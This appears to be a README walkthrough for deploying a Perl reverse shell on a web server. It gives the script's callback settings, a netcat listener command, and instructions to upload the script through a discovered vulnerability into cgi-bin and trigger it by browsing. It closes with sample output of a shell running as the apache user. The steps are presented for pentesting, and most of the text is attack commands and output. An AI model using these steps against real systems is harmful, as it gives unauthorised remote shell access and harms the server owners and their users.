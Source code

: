 # Walk Through
Modify the source

To prevent some else from abusing your backdoor – a nightmare scenario while pentesting – you need to modify the source code to indicate where you want the reverse shell thrown back to.  Edit the following lines of perl-reverse-shell.pl:
```
# Where to send the reverse shell.  Change these.

my $ip = '127.0.0.1';

my $port = 1234;
```


Get Ready to catch the reverse shell

Start a TCP listener on a host and port that will be accessible by the web server.  Use the same port here as you specified in the script (1234 in this example):
```bash
nc -v -n -l -p 1234
```

Upload and Run the script

Using whatever vulnerability you’ve discovered in the website, upload perl-reverse-shell.pl.  You’ll need to place it in a directory where PERL scripts can be run from (e.g. cgi-bin).  Run the script simply by browsing to the newly uploaded file in your web browser:

http://somesite/cgi-bin/perl-reverse-shell.pl

Enjoy your new shell

If all went well, the web server should have thrown back a shell to your netcat listener.  Some useful commans such as w, uname -a, id and pwd are run automatically for you:
```bash
$ nc -v -n -l -p 1234
listening on [any] 1234 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 58034
 16:35:52 up 39 days, 19:30,  2 users,  load average: 0.22, 0.20, 0.14
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
root   :0        19May07 ?xdm?   5:07m  0.01s /bin/sh /usr/kde/3.5/bin/startk
Linux somehost 2.6.19-gentoo-r5 #1 SMP PREEMPT Sun Apr 1 16:49:38 BST 2007 x86_64 AMD Athlon(tm) 64 X2 Dual Core Processor 4200+ AuthenticAMD GNU/Linux
uid=81(apache) gid=81(apache) groups=81(apache)
/
apache@somehost / $
```
